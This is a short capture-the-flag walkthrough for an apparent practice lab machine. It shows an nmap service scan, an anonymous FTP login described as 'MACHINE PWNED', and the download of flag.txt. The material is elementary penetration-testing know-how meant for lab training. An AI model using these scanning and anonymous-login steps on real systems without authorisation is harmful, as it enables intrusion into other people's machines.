 1. **Scan all the ports and determine service and version of open ports**
```bash
nmap -sV [ip machine]
```
--> port 21/tcp - open - ftp


2. **Connect to the machine via "ftp"**
```bash
ftp [ip machine]
	Name: Anonymous
	Password: [random]
```
--> **MACHINE PWNED!** 


3. **Capture the flag**
```bash
ftp --> get flag.txt
```
--> Transfer completed!